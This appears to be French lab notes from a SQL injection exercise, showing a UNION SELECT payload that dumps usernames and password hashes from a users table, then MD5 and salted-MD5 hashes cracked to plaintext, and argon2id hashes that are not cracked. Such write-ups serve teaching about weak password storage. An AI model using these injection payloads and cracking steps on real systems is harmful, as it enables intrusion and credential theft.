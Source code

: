         - admin | 14b85b0752eddc5f25217386e3c6bf22
        - nico_le_BG_du_38 | 315b4df935f4775ef5033a4833a9e0e1
        - hamtaro_le_ouf_guedin | c1f75cc0f7fe269dd0fd9bd5e24f9586
        - diane_la_belle_gosse | decc2e06a44e61f12a030bc4951563eb
        - rodin | 281715cafa675bf359ebaa42cb44fa17

- Utilisation d'un outil pour récupérer le mot de passe en clair par rapport au hash récupérés précédemment : https://hashes.com/en/decrypt/hash
- Algorythme utilisé : MD5
    - Particularité du MD5 -> 128 bites -> 32 caractères

- Liste des mots de passe après "décryptage" :

    - admin | 14b85b0752eddc5f25217386e3c6bf22 | 7002
    - nico_le_BG_du_38 | 315b4df935f4775ef5033a4833a9e0e1 | 7004
    - hamtaro_le_ouf_guedin | c1f75cc0f7fe269dd0fd9bd5e24f9586 | 7006
    - diane_la_belle_gosse | decc2e06a44e61f12a030bc4951563eb | 7008
    - rodin | 281715cafa675bf359ebaa42cb44fa17 | 7010
******************************************************************************************
- Essayons d'afficher les mot de passe avec la dernière requête utilisé dans la partie précédente :
  - -1 union select 1,"admin",3,name,password,6 from users

- Cette fois encore, nous récupérons des mots de passe qui ne sont pas en clair
    - Liste des mots de passe récupérés :

        - admin | dd549ef722ec71867ebb30e94a5026e7$xu9ykorscfkgsbb3
        - nico_le_BG_du_38 | 3a44d354d54c58e822d6ba0c9c978b98$yz6ysnfltr9ovnjz
        - hamtaro_le_ouf_guedin | 6104326c2a4f7ed0187db532e131be09$gqybhtkoms4gxghs
        - diane_la_belle_gosse | cea7ea947b7e477b7a76cd0927a8e8dd$q7uawzmzgq7r991v
        - rodin | 387d8278d29a3f8db6d888879a4abe76$x9xwqtylwdrnqo4v

- Utilisation d'un script python pour récupérer le mot de passe en clair par rapport au hash + salt récupérés précédemment : MD5SaltedCracker.py
- Algorythme utilisé :
    - Particularité du MD5 -> 128 bites -> 32 caractères + un sel avec le séparateur $


- Liste des mots de passe après "décryptage" :

    - admin | dd549ef722ec71867ebb30e94a5026e7$xu9ykorscfkgsbb3 | 8003
    - nico_le_BG_du_38 | 3a44d354d54c58e822d6ba0c9c978b98$yz6ysnfltr9ovnjz | 8006
    - hamtaro_le_ouf_guedin | 6104326c2a4f7ed0187db532e131be09$gqybhtkoms4gxghs | 8009
    - diane_la_belle_gosse | cea7ea947b7e477b7a76cd0927a8e8dd$q7uawzmzgq7r991v | 8012
    - rodin | 387d8278d29a3f8db6d888879a4abe76$x9xwqtylwdrnqo4v | 8015
***************************************************************************************
- Essayons d'afficher les mot de passe avec la dernière requête utilisé dans la partie précédente :
  - -1 union select 1,"admin",3,name,password,6 from users

- Cette fois encore, nous récupérons des mots de passe qui ne sont pas en clair
    - Liste des mots de passe récupérés :

        - admin | $argon2id$v=19$m=4096,t=3,p=1$c4ca4238a0b92382$ZaXiFUMYfTbo28cDBpd5hbes2MqFC/PuX2obtmXwFAI
        - nico_le_BG_du_38 | $argon2id$v=19$m=4096,t=3,p=1$c81e728d9d4c2f63$3A5SH32PJy/6wiCX/VV1x+wPydXdy1ifKs4HQjdzxQU
        - hamtaro_le_ouf_guedin | $argon2id$v=19$m=4096,t=3,p=1$eccbc87e4b5ce2fe$OpO0MbNtrEcAtmvwOZpwFAR6ZE4QXMgagNYLUSH65qo
        - diane_la_belle_gosse | $argon2id$v=19$m=4096,t=3,p=1$a87ff679a2f3e71d$DK3JhvXBaVXBOMWNg26wTSyzGuwoiw0QWdWTMOUrI0Y
        - rodin | $argon2id$v=19$m=4096,t=3,p=1$e4da3b7fbbce2345$NfR/nD1qBZ2iizGcdeutAN7cJB5rkzT/VqgGDAAy8z4
